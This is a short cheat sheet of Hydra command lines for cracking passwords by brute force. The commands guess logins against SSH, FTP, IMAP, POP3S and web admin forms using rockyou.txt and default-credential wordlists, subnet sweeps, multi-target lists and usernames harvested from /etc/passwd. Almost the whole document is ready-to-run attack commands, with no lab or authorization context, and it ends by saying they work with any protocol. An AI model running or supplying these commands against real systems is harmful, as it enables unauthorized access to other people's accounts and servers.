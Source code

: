 #How to use Hydra to crack passwords or brute force

`hydra -l bob -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.15`

OR

`hydra -L user.txt -p password123 ssh://10.1.1.2`

OR both!

`hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
`

OR

```
hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin
```
OR

```
hydra -L etcpwdusers.txt -e nsr 192.168.111.100 ssh
```
Use above with any protocol ftp/ssh etc.
